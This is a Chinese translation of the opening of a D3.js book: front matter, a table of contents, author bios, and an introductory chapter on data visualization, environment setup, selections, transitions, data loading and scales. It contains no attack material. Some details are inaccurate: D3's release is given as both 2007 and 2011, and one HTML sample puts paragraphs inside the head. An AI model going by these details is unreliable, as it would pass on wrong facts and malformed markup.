







# JavaScript 征服记：D3.js


编辑
**Sufyan bin Uzayr**


JavaScript 已成为 Web 开发和跨平台开发的事实标准。D3.js 是一个极其流行的 JS 框架，专为快速 Web 和应用开发而设计。

*征服 JavaScript：D3.js* 帮助读者掌握 D3.js 框架，实现更快速、更健壮的开发。本书是一本详尽的指南，帮助开发者和程序员更好地利用 D3.js。书中简要讨论了基础知识，随后深入到更高级、更详细的练习，帮助读者快速获得所需知识。

主要特点：
- 提供行业特定的案例示例。
- 讨论 D3.js 在项目工作中的可视化实现。
- 强调如何编写整洁且可维护的代码。

本书是 D3.js 开发者以及从事游戏开发、移动应用、渐进式应用乃至桌面应用开发人员的宝贵参考。

## 关于本系列

征服 JavaScript 系列涵盖了广泛的主题，专门涉及 JavaScript 编程生态系统，如框架和库。本系列的每本书都聚焦于单一主题，并对其进行全面深入的讲解，尤其注重实际应用和面向代码的方法，遵循行业标准编码范式，以帮助学习者获得可用于实际项目的实践技能。

本系列书籍的一些关键特点包括：
- 文字清晰易懂，涵盖按相关性排序的各种 JavaScript 相关主题。
- 特别注重实践练习，提供大量代码示例和程序。
- 采用引导式 JS 编码方法，提供分步教程和详细演练。
- 重点强调技能的实际应用价值，剔除冗余和很少使用的概念及多余内容。
- 提供丰富的参考资源，帮助读者充分利用本书。

征服 JavaScript 系列书籍假定读者具备基本的编码基础知识。

征服 JavaScript 系列由 Sufyan bin Uzayr 编辑，他是一位拥有十多年计算机领域经验的作家和教育工作者。Sufyan 拥有多个学位，曾在世界各地的大学和机构任教。迄今已撰写和编辑超过 50 本书，Sufyan 为本系列带来了丰富的经验。在 [sufyanism.com](https://sufyanism.com) 了解更多他的作品。

https://www.routledge.com/Conquering-JavaScript/book-series/CRCCONJAV


## 第 3 章 ■ 应用程序开发 II

### 使用 Three.js 构建应用

#### 安装与下载

#### 代码教程

#### 初始 HTML 配置

#### 构建 3D 世界

#### 在本地机器上搭建开发服务器

##### Windows 用户

##### Mac 用户

#### 绘制几何体与调整视口大小

##### 视口大小更新

#### 导入商业计划

#### 初始项目布局

#### 选择 3D 模型

##### 3D 模型加载

##### 重要的 3D 开发建议

# 总结

### 笔记

## 第 4 章 ■ 应用程序开发 III

## BitClout 究竟是什么？

### 前提条件

## 从 BitClout HODLers 抓取数据

## Python 脚本

### FLASK 服务器后端开发

## 将 BitClout 网络导入 Memgraph

### 用于前端开发的 D3.js

### 搭建并运行 Docker 环境

### 启动应用程序

### 结论

### 笔记

## 第 5 章 ■ 代码优化

### 编写优化且高效的代码

### 熟悉异步编程

### 匿名函数与 D3 函数

- 保持代码简洁明了
- 尽可能避免循环
- 减少 DOM 访问
- 对象缓存提高效率
- 避免占用过多内存 127
- 推迟不必要的 JavaScript 加载 127
- 消除内存泄漏 127

### 加固与安全

- JavaScript 的隐患 128
    - 调试与篡改 128
    - 客户端攻击与数据外泄 128

#### 确保 JavaScript 安全的步骤

- JavaScript 完整性检查 130
- 定期测试 NPM 漏洞 131
- 应启用次要版本和补丁版本更新 131
- 建立验证机制以防止注入 131
- 始终保持严格模式 132
- 清理代码 132
- 对代码进行混淆和压缩 133

### 通用技巧

- 在顶部声明并初始化变量 133
- 创建特定的模块化函数 133
- 识别并消除重复代码 134
- 经常为代码编写注释 134
- 应避免过度使用递归 135
- 高效使用 DOM 操作 135
- 无论如何，远离全局变量 136
- 应使用简写表示法（对象字面量） 136
- 使用严格模式以捕获静默错误 137
- 设置默认选项 138
- 使用模板字符串来拼接字符串 138
- 使用 includes 解决存在性测试 139
- 带有假值的条件语句应予以简化 139

### 继承与方法共享

- 使用数组技术创建更短的循环 141

# 总结

## 第 6 章 ■ 总结

### D3.js 的职业前景
### 数据可视化有未来吗？
### D3.js 与其他框架及工具的结合
## DOM 与 D3
#### 流程是什么？
#### 数据连接 (Data Joins)
## D3 库
### Plottable
### Billboard
### Vega
### D3FC
### Britecharts
## DOM 与 REACT
#### 流程是什么？
### 动态子组件
## D3.js 与 REACT
#### 实现方法
##### 在 REACT 中使用 D3.JS
### REACT FAUX DOM
##### 生命周期方法包装
##### REACT 处理 DOM，D3 处理数学计算
### 用于 REACT-D3.js 的库
### RECHARTS
### NIVO
### VX
### BRITECHARTS REACT
## 选择方法或库
### 关于 REACT 和 D3.js 的最终思考
### 使用 ANGULAR 进行 D3.js 数据可视化

### ANGULAR 和 D3 安装

- 制作柱状图 162
- 制作饼图 165
- 制作散点图 168

### 加载外部数据源

- CSV 文件加载 171
- 使用 JSON API 获取数据 171

### 全栈开发 —— 数据提取、D3 可视化与 DOKKU 部署

### 获取信息

- 发生了什么？ 174
- 测试时间 174

### 可视化

- BOWER 175
- HTML 175
- D3 176
    - 设置 176

#### 主配置

- 气泡配置 177
- SVG 配置 178
- 工具提示 (Tooltips) 179
- CSS 181

#### 部署

- 使用 D3 和 d3fc 创建复杂的金融图表 182
- 制作简单图表 182
- 填充空间 184

### 集成移动平均线

- 包含成交量集 186
- 插入图例 188
- 交易时间与非连续轴 190

### 注解

- 十字光标 193
- 总结 194
- 笔记 194

参考文献，195

索引，197

### 关于编辑

**Sufyan bin Uzayr** 是一位作家、程序员和企业家，在行业内拥有超过十年的经验。他过去曾撰写过数本书籍，涵盖从历史到计算机/IT 的广泛主题。

Sufyan 是 Parakozm 的董事，这是一家专注于教育技术（EdTech）解决方案的跨国 IT 公司。他还经营 Zeba Academy，这是一个专注于 STEM 领域的在线学习与教学平台。

Sufyan 精通多种技术，如 JavaScript、Dart、WordPress、Drupal、Linux 和 Python。他拥有多个学位，包括管理学、IT、文学和政治学。

Sufyan 是一名数字游民，在四个国家之间分配他的时间。他在全球众多大学和教育机构生活并任教。Sufyan 对技术、政治、文学、历史和体育有着浓厚的兴趣，并在业余时间喜欢教授年轻学生编程和英语。

了解更多请访问 [sufyanism.com](https://sufyanism.com)

### 致谢

有许多人值得出现在这一页，因为如果没有他们的支持，这本书就不会诞生。话虽如此，有些名字值得特别提及，我衷心感谢：

- 我的父母，感谢他们为我所做的一切。
- Parakozm 团队，特别是 Divya Sachdeva, Jaskiran Kaur 和 Simran Rao，在本书写作过程中提供了巨大的帮助和支持。
- CRC 团队，特别是 Sean Connelly 和 Danielle Zarfati，确保了本书的内容、布局、格式等所有环节的完美。
- 本书的审稿人，感谢他们审阅原稿并提供见解和反馈。
- 排版员、封面设计师、印刷员以及所有其他参与本书开发的人员。
- 所有直接或间接与 Zeba Academy 相关的人员，感谢他们的帮助与支持。
- 整个编程社区，尤其是 Web 开发社区，感谢他们的辛勤工作与付出。

Sufyan bin Uzayr

### Zeba Academy – 征服 JavaScript

“征服 JavaScript”系列书籍由 Sufyan bin Uzayr 带领的 Zeba Academy 团队编写，成员包括：

- Divya Sachdeva
- Jaskiran Kaur
- Simran Rao
- Aruqqa Khateib
- Suleymen Fez
- Ibbi Yasmin
- Alexander Izbassar

Zeba Academy 是一家教育技术创业公司，主要为 STEM 领域的学习者开发课程和内容，并为全球的学习者和教育者提供教育咨询和指导。

此外，Zeba Academy 积极在独联体（CIS）国家运营 IT 学校，目前正与众多大学和机构合作。

更多信息，请访问 https://zeba.academy

# 第一章

## D3.js 简介

## 本章内容

- D3.js 基础
- D3.js 的特性
- 优缺点

本章探讨了为什么我们需要数据可视化，以及如何通过在 Web 上分发它们来实现我们的沟通目标。我们将讨论使用 d3 及其各种组件构建数据可视化应用程序的基本概念。

让我们从理解数据可视化的基础开始。

## D3.js 速成课程

如果你从事金融、销售、市场营销或运营工作，你肯定注意到大数据正潜入你的日常工作中。毫无疑问，它将继续朝着好的方向发展。唯一的问题是如何在做出任何决定之前从数据中获取洞察。数据可视化是信息和数据的图形表示。通过使用图表、图形和地图等视觉特征，数据可视化工具使探索和理解数据中的趋势、离群值和模式变得简单。在大数据的世界里，数据可视化工具和技术是分析海量数据并做出数据驱动决策的关键。

DOI: 10.1201/9781003356608-1


交互式可视化能为最单调的信息增添趣味。交互式数据的一个主要特点是其能作为一个完整的数据包呈现。它允许用户选择单个数据点来阐释事件。实现这一点最有效的方法之一是使用 JavaScript，特别是 D3.js 框架。

D3（数据驱动文档）是由美国软件工程师迈克·博斯托克创建的 JavaScript 库，他在斯坦福大学攻读博士学位期间开发了这个软件。从概念上讲，它类似于 **Protovis**（一个免费开源的图形数据可视化工具包，使用 JavaScript 和 SVG 进行 Web 原生可视化，并将自定义数据视图与简单的标记如条形和点结合起来），但 D3 不同于静态可视化，它专注于交互、过渡和转换。

它有官方网站：[d3js.org](https://d3js.org)，D3 源代码可通过以下方式获取：[https://github.com/d3/d3](https://github.com/d3/d3)

与许多其他数据可视化框架不同，D3 允许你尽情发挥创意，因为你完全掌控所创建的视觉效果。D3 使用了 HTML、CSS、SVG 和 JavaScript 等 Web 技术。

- D3 速度非常快，并支持代码重用。
- 它可以处理大型数据集，并简化数据加载和转换。
- 它适用于创建交互式可视化内容。


*D3.js 的应用。*

首先，在使用 D3 生成可视化之前，我们需要熟悉 Web 标准。由于 D3 广泛使用了以下 Web 标准，我们将简要回顾一下：

- **HTML（超文本标记语言）**：使用 HTML 构建网站内容。HTML 5 是最新版本。它存在于 .html 文本文件中。

```html
HTMLCode:
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <p>India is one the largely populated country.</p>
    <p>Tiger is National Animal and Peacock is National Bird.</p>
</head>
<body>
</body>
</html>
```
*HTML 的经典示例。*

- **DOM（文档对象模型）**：当你为页面编写 HTML 代码时，浏览器会将其转换为层次结构。每个 HTML 标签都会转换为一个具有父子结构的 DOM 元素。它改进了 HTML 的逻辑结构。一旦 DOM 构建完成，就可以轻松地操作（添加/修改/删除）页面上的项目。正如我们在第一章所学，D3 中的初始“D”代表文档。D3 使你能够使用自己的数据来更改 DOM。

## 掌握 JavaScript：D3.js

- **CSS（层叠样式表）**：HTML 为网页提供结构，而 CSS 则为其设置样式，使其在视觉上更具吸引力。它是一种用于描述 HTML 或 XML 文档（包括 SVG 或 XHTML 等 XML 方言）外观的样式表语言。CSS 指定了网页上的元素应如何显示。


*HTML 和 CSS 的经典示例。*

- **SVG（可缩放矢量图形）**：SVG 是一种基于 Web 的图像渲染格式。SVG 是一种基于文本的图像格式，可用于创建图像。顾名思义，它是一种可缩放的矢量。调整浏览器大小不会影响图像，因为它会根据浏览器的大小进行缩放。除 Internet Explorer 8 及更低版本外，所有浏览器都支持 SVG。由于数据可视化是视觉呈现，因此使用 D3 结合 SVG 来渲染可视化内容更为容易。


*HTML 和 SVG 的经典示例。*

- **JavaScript**：JavaScript 是一种在用户浏览器中运行的、松散类型的脚本语言。为了使在线用户界面具有交互性，JavaScript 与 HTML 元素（DOM 元素）进行交互。JavaScript 支持 ECMAScript 标准，包括基于 ECMA-262 规范的基本功能以及非 ECMAScript 特性。它通过动态更新内容、验证表单数据、控制多媒体、动画图像以及几乎所有其他操作，将静态 HTML 网页转变为交互式网页。要使用 D3.js，需要具备 JavaScript 知识。

示例：
```html
Many <Script> tag
<!DOCTYPE html>
<html>
<head>
    <title>JavaScript Demo</title>
    <script>
        alert('Hello JavaScript 1')
    </script>
</head>
<body>
    <h1>JavaScript Tutorials</h1>
    <script>
        alert('Hello JavaScript 2')
    </script>
    <p>This page contains many script tags.</p>
</body>
</html>
```

## 设置 D3 环境

在本部分，我们将学习如何设置 D3.js 开发环境。D3 兼容所有现代浏览器，当前版本的 D3.js 是 7 (v7)。

但在开始之前，你需要以下几项：
- D3 库
- Web 浏览器
- 编辑器
- Web 服务器

- **步骤 1：D3 库**：要使用 D3 进行数据可视化，必须将 D3.js 库包含在你的 HTML 网页中。有两种方法：
    - 将 D3 库包含在作业文件夹中。
    - 应包含来自 CDN 的 D3 库（内容分发网络）。

第一步是获取 D3 库的副本，我们需要访问：[https://d3js.org/](https://d3js.org/)，下载最新版本的 D3 zip 文件夹，然后解压该文件夹并找到 d3.min.js（D3 源代码的压缩版本）。在桌面上创建一个作业文件夹，并将此 D3 源代码以及其他库文件复制进去。



这个压缩版本的 D3 源代码将按照如下方式插入 HTML 代码中：

```html
<!DOCTYPE html>
<html>
<head>
    <script src="./d3.min.js"></script>
</head>
<body>
</body>
</html>
```

因为 D3 是一种 JavaScript 语言，你可以将所有 D3 代码编写在 `<script>` 标签内。由于你可能需要更改现有的 DOM 组件，建议在 `</body>` 标签之前编写 D3 代码。

- **应包含来自 CDN 的 D3 库**：可以通过从内容分发网络（CDN）添加直接链接到你的 HTML 网站来使用 D3 库。CDN 是一组计算机，根据用户的位置托管和交付文件。如果使用 CDN，你可以避免下载源代码。我们可以使用 CDN 链接 `https://d3js.org/d3.v4.min.js` 将 D3 库包含在你的页面中，如下所示：

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <script src="https://d3js.org/d3.v4.min.js"></script>
    </head>
    <body>
        <script>
            // 在这里编写你的 d3 代码...
        </script>
    </body>
</html>
```

- **Web 服务器**：大多数浏览器直接在你的 Web 浏览器中提供本地 HTML 文件。然而，在加载外部数据文件时存在一些限制。数据将从外部文件（如 CSV 和 JSON）加载。如果从一开始就设置 Web 服务器，对我们来说会更容易。我们可以使用任何你熟悉的 Web 服务器，例如 IIS 或 Apache。

- **编辑器**：最后，需要一个编辑器来开始编写代码。一些优秀的支持 JavaScript 的集成开发环境（IDE）包括 WebStorm、Eclipse、Sublime Text 或 Visual Studio Code。

- **Web 浏览器**：D3 适用于所有“现代”浏览器，但 Internet Explorer 8 及更早版本除外。D3 已在 Firefox、Chrome、Safari、Opera、Internet Explorer 9+、Android 和 iOS 上进行了测试。由于主要的 D3 库要求最低：JavaScript 和 W3C DOM API，D3 的部分功能可能在较旧的浏览器中运行。D3 使用选择器 API Level 1；但是，为了兼容性，可以预加载 Sizzle。要使用 SVG 和 CSS3 过渡，你需要一个现代浏览器。D3 不是一个兼容层；因此，如果你的浏览器不支持标准，则需要使用另一个浏览器。

D3 也使用 Node.js。使用 `npm install d3` 进行安装。D3 也可以通过创建自定义构建（仅包含所需的非 DOM 功能）在 WebWorker 中运行。

- **步骤 2：DOM 元素**：现在我们有了一个开源代码库，是时候通过操作样式和其他 DOM 元素来设置你自己的网页了。掌握使用 `d3.selectAll(CSS-选择器)` 或 `d3.select(CSS-选择器)` 获取 DOM 元素引用非常重要。

这些元素将在 HTML 和 CSS 约定成功应用后相应地应用。

可以使用多种方法来更改 DOM 元素，例如 `.text("内容")` 和 `.remove()`。这些方法与现有规范非常相似，使得编码变得简单。我们可以以类似的方式添加动画和其他功能。

- **步骤 3：导入你的信息**：下一步是加载我们的数据集并将它们链接到 DOM 元素。D3 能够处理本地和外部文件。数据上传类似于使用 HTML 和 CSS 的传统数据加载，使用诸如 `d3.json()` 处理 .json 文件；`d3.csv()` 处理 .csv 文件等方法。

- **步骤 4：数据可视化**：一旦数据成功加载到 D3 中，我们就可以创建他们数据可视化中最重要的部分：可视化本身。

这可以采用 SVG 的形式，允许你在图表中显示多种形状，例如线条、圆圈和椭圆，并提供你完全控制数据可视化的权力。从本质上讲，操作 SVG 值与操作 DOM 元素非常相似。


通过遵循以下步骤，我们可以轻松创建图形和图案，帮助我们构建完整的图表。

然而，这并不构成真正的数据可视化。相反，必须使用 D3 来操作几何形状和样式，以达到最佳效果。这包括从图表的刻度到其坐标轴，再到图表的动画等所有内容。

不过，当你掌握了 D3.js 的方法后，创建从动态饼图到响应式柱状图的任何东西都可以像吃馅饼一样简单。

## D3.js 的优势

D3.js 作为一种高级可视化工具，具有众多优势。

-   它可以免费使用。因此，源代码可以免费获取。开发者还可以下载并修改它。
-   D3.js 拥有一个庞大的开发者社区，他们不断改进这个库，同时也有一个庞大的项目库可供学习。
-   从技术角度来看，D3.js 是通用的，并且简化为可以与不同的 JavaScript 框架以及常见的 Web 标准（如 SVG、HTML5 和 CSS）一起工作。
-   D3.js 具有令人难以置信的灵活性，因为它能够根据数据高效地操作文档。

## D3.js 的缺点

一些 D3.js 功能在旧版浏览器中不受支持。

-   它对数据源有限制。
-   D3.js 使得隐藏原始数据变得困难。
-   最大的缺点是陡峭的学习曲线。

## 应用领域

它的优势在各种数据可视化领域都是理想的。以下是 D3 使用的一些主要领域：

-   基础的图表分析可视化和制图
-   网络可视化
-   创建数据仪表板的模块
-   Web 地图的生成与合成
-   交互式数据可视化

在了解了上一节关于 D3.js 的基本术语后，现在让我们在下一节中了解一些关于它的核心概念。

## 核心概念

既然我们已经简要介绍了 D3.js，现在让我们介绍一些与 D3.js 相关的关键方面。

### 理解数据可视化

我们继续生活在一个数据驱动的世界里。近年来，大数据已成为一个流行词，企业和政府都依赖它来做出决策。数据可视化是创建和探索数据视觉表示的过程。我们通过通常被称为 DataViz 的数据可视化清晰高效地呈现信息。我们使用图形、数字和图像来做到这一点。为了帮助用户“一目了然”地解释数据，我们需要构建数据可视化。当展示一个数值表时，人们必须“阅读”它才能得出任何结论。另一方面，数据可视化允许消费者立即“看到”数据，从而发现趋势并比较结果。



#### 数据可视化的 3 种方式

最常见的数据可视化方法。

万维网（简称 Web）是世界上使用最广泛的信息传输技术。JavaScript 也被广泛使用。它在浏览器和服务器上运行，数以百万计的设备都在使用它。它是世界上最重要的编程语言。当我们需要为全球分发开发数据可视化时，有许多数据可视化技术可供使用。我们应该如何利用它们？

显然，所有这些问题的答案就是 d3.js，在本章中，我们将了解为什么它是数据可视化的最佳应用。

D3.js 是一个强大的图表框架，于 2007 年首次发布。它最适合用于复杂和不寻常的数据表示。每个人都喜欢漂亮的图像，分享美丽的图像是最棒的。俗话说“一图胜千言”，这是真的：视觉在大脑中处理的速度远快于文本。

Web 传播专家建议使用视觉元素，特别是设计精良且易于理解的图表。

对于我们这些从事数据可视化工作的人来说，经过一段时间才意识到信息既可以吸引人，又有价值。交互式图形和创新创造力使得能够进行深入丰富的探索，同时用美感吸引观众。

### 原始数据可视化

数据可视化的主要目的之一是解释复杂主题。数据可视化可以实现快速理解。然而，它也可以让人们看到通常会被忽视的事物，或者提出他们原本不会提出的问题。借助良好的可视化，任何人都可以浏览、研究并与数据交互。探索性可视化为数据集提供了多个层次的维度，可用于比较多个数据集或在不同类型的数据集中寻找异常值。交互式可视化使你不仅能够观察和得出关于单一事实的结论，而且还能在过程中提出问题并获得这些问题的答案。


*分析数据时数据科学过程的示意图。*

信息有时是我们能传达给客户的最好的数据可视化 JavaScript 库。现在我们已经足够了解原始数据以及为什么需要可视化数据和其他相关主题。

### 不同类型的交互体验

不同类型的交互体验被定义为四个基本类别，即：指导、讨论、操作和探索。D3.js 在实现这些视觉体验方面可能非常有用。

考虑到所有这些技术细节，我们可以描述几种主要的可视化模式：地图、时间线和网络。由于 D3.js 内在的灵活性，允许大量非标准模式，因此很难将其归入特定类别。

### 什么是 D3.js？

现在我们已经对数据可视化有了足够的了解。现在让我们回到对 D3 的理解。它代表数据驱动文档。自 2011 年推出以来，D3.js (https://d3js.org/) 已成为在 Web 上创建复杂数据可视化的实际标准。它是一个 JavaScript 前端可视化框架，用于构建交互式和动态的基于 Web 的数据可视化。它还拥有一个庞大而活跃的社区，这个名称模仿了该工具将数据值链接到文档元素的能力。这样做时，D3 从数据中“提取”文档并操作 DOM 元素，专注于对象和概念，而不是预构建的图表，并且它使用 HTML、CSS 和 SVG 来让数据变得生动。这使其比其他工具具有重大优势，因为它可以呈现你想要的任何外观，不像其他仅基于 SVG 的库，它们仅限于网页的一小部分。它还利用了浏览器的内置功能，使开发人员的工作更容易，尤其是在鼠标交互方面。

与 Chart.js 等其他相关包不同，D3.js 不包含数据处理工具或可供选择的预构建图表库。它适用于最流行的网络浏览器，如 Chrome 和 Firefox。它还可以绘制弧线、线条、矩形和点等。

D3.js 最重要的特性是它允许你创建美观、完全可定制的可视化。它是一系列小型数据展示和分析工具的集合。这些模块彼此互补得很好，但我们应该只使用我们需要的部分。D3 中最复杂的概念是选择，如果我们在使用像 React 这样的虚拟 DOM 框架（并且不需要过渡）时，我们不需要这个。

在接下来的几节中，我们将探讨这个库的优势以及为什么选择 D3.js 不会错。

### 语法

D3 中的大多数选择、过渡和数据绑定操作都是通过 JavaScript 函数执行的。CSS 对于设置组件的样式也很重要。JavaScript 函数也可以构建为读取各种格式的数据。

-   在处理数据集之前，最重要的过程是**选择**，即从数据集中检索数据。D3 通过将指定的标签作为参数传递给 select 函数来简化选择任务。

```javascript
d3.selectAll("pre") // 它选择 <pre> 标签下定义的所有元素
    .style("color", "blue"); // 将样式 "color" 设置为 "blue" 颜色值
```

同样，可以处理在特定标签下创建的多个数据集。标签、类、标识符和属性都可以用作 selectAll() 的参数。元素可以被修改、添加、删除或操作，所有这些都基于数据。


### 过渡 (Transitions)

**Transitions**：过渡允许数据集的值和属性随时间而变化。

```
d3.selectAll("pre")            // select all <pre> elements
  .transition("transEx")       // Declaring transition named as "transEx"
    .delay(19)                 // transition starting after 19ms
    .duration(70);             // transitioning during 70ms
```

请注意在给出的示例中，所有作为 `pre` 标签子集的项目是如何进行适当过渡的。

对于更复杂的应用，D3 利用加载的数据进行对象的创建和操作、属性插入以及过渡。数据绑定（Data Binding）部分包含了所有这些操作。此外，利用 D3 框架，可以以极小的代价创建和更改动画、过渡和属性。辅助函数可以处理操作处理的所有方面。由于 D3 专注于抽象，大多数内部操作或执行对最终用户是隐藏的，从而使其更易于使用。D3 框架可以执行更复杂的任务，例如从不同的数据集格式（如 `.csv` 或 `JSON` 文件）检索数据。

### 在 D3 中加载数据

我们已经了解了数据对 D3 意味着什么，以及如何将其与我们的选择（choices）联系起来。但到目前为止，我们只使用了自己编写的数据，例如 `fruits = ['Apple, Orange, Mango']`。

实际上，情况并不总是如此；您可能需要使用 API 或本地文件来获取数据。

D3 提供了几种加载不同类型文件的技术：

- d3.json
- d3.csv
- d3.xml
- d3.tsv
- d3.text

在使用这些方法时，语法基本上是相同的：

```
// async-await
const data = await d3.csv("/path/to/file.csv");
console.log(data);
// or
d3.json("/path/to/file.json").then((data) =>
{
    console.log(data);
})
```

### D3 比例尺 (THE D3 SCALES)

到目前为止，您已经学习了如何使用 D3.js 加载和使用数据。现在是研究比例尺（scales）的时候了。对于大多数人来说，这是最难掌握的部分，但它也是 D3 中最关键的概念。

`d3.scale` 函数接收数据并输出以像素为单位的视觉结果。对于 `d3.scale`，必须指定一个定义域（domain）和一个值域（range）。定义域为我们要可视化的数据建立了一个范围限制。

```
const x_scale = d3.scaleLinear()
    .domain([100, 5000])
    .range([20000, 160000]);
```

## D3.js 的特性

D3.js 是一个强大的数据可视化框架，允许您创建具有用户交互和过渡效果的基础及复杂表示。以下是一些最显著的特性。

### 为互联网而生

D3.js 使用 JavaScript、SVG、HTML、Canvas 和 CSS 等 Web 标准，构建可在所有浏览器中运行的数据可视化。处理交互和模拟的能力是 Web 的一个重要特性，这些在 D3.js 的开发中至关重要。简单来说，D3 加载数据并将其添加到 DOM 中。然后，它将数据链接到新的 DOM 元素并对其进行修改，有时会在状态之间进行过渡。该库的核心由 D3 选择器（D3 selections）组成。它们允许您使用 CSS 选择器来选取和操作 DOM 元素。在选定的元素中，我们可以编辑属性和样式，以及添加额外的嵌套元素。

让我们通过一个例子来理解：

```
const SVG = d3.select("body")
  .append("SVG")
  .attr("width", 500)
  .attr("height", 100)
  .style("background-color", "blue");
```

我们可以通过使用 D3.js 选择器来处理 SVG 的复杂性，这使开发人员免于在跨浏览器兼容性方面感到苦恼。通过使用选择器，我们可以设置属性、样式、属性、HTML 或文本内容等，从而利用数据来修改文档对象模型 (DOM)。

我们在代码中使用了选择器来定位 HTML 文档中的 `body` 标签。然后，使用 `append` 创建了一个新的 SVG 元素，并使用 `attr` 设置其 `width`（宽度）和 `height`（高度）属性。最后，我们为该 DOM 元素应用了蓝色背景色。

### 持续改进

JavaScript 库在不断演进并保持其相关性。D3.js 也不例外，在过去几年中它经过了多次升级。它变得更加模块化，将库分为多个子模块并扁平化了命名空间。现代版本增加了更好的 Canvas 支持、不可变选择器（immutable selections）和共享过渡。数据请求 API 被更改为使用 Promise，并删除了一些颜色比例尺。更新过程比之前的版本更简单，不再那么繁琐。

### 您对可视化拥有完全控制权

根据数据可视化的目的，我们可以以多种方式描绘数据。强大的数据可视化是可能的：

- 折线图显示趋势。
- 柱状图描绘数值比较。
- 热力图显示均匀分布。
- 饼图显示相对于总体的百分比。

毫无例外，D3.js 允许开发人员设计所有这些图表。该库让您几乎完全控制可视化的外观和行为。D3.js 提供了丰富的 API，包括用于操作数据数组和数据结构的数学函数、DOM 元素选择和转换函数，以及使用原语函数创建的 SVG 元素。此外还包括将数据转换为视觉表示的函数、显示日期和数字的函数、颜色分配以及操纵函数。D3.js 如此全面完整，以至于开发人员不需要任何额外的库即可创建复杂的数据可视化。

- 它甚至能处理大数据集并广泛利用成熟的库，允许用户复用代码。
- D3 隐式地维护逻辑并支持过渡和动画。因此，无需显式地维护或构建这些内容。响应式动画渲染允许在内部状态之间快速切换。
- D3 支持 DOM 操作，并且足够灵活，可以动态管理其处理程序的属性，这是它的主要特性之一。

## 为什么我们要使用 D3.js?

如今，有各种图表库和 BI 工具可用于构建表示，那么为什么要在可视化中使用 D3.js 呢？它的主要优势包括灵活性、完全的自定义能力和交互式可视化，包括可以通过图形设计师创建的数据可视化。数据可视化比我们意识到的要困难得多。虽然绘制形状很简单，但某些可视化需要完全的自定义，例如添加微小的刻度线以及在数据点之间绘制各种平滑曲线。这就是 D3.js 的用武之地，它允许我们快速探索设计空间。它不仅仅是一个图表库，还是一个完美的、用于创建图形的灵活编码环境。

## 何时应当利用 D3.js?

由于 D3.js 有时可能很复杂，编程需要从零开始，且学习曲线陡峭，但由于其巨大的好处，我们必须使用它并学习何时使用它。当我们的 Web 应用程序与数据交互时，我们应该使用 D3.js。我们可以研究 D3.js 的绘图特性并提高其可用性。它可以被引入到 Web 应用程序的前端，因为数据由后端服务器生成，而应用程序的前端部分使用 D3.js 与数据进行交互。

我们已经涵盖了数据可视化的基础知识、D3.js 前端可视化库的概念，以及何时何地使用 D3.js 库；现在，让我们看看一些 D3 的用例，例如 D3 配合复杂代码还可以提供可在其他可视化中复用的代码。D3 还可以用于通过自定义可视化进行反应和叙事（storytelling），这是最重要的用例，这一切都可以通过 D3 完成。

## D3 生态系统：入门须知

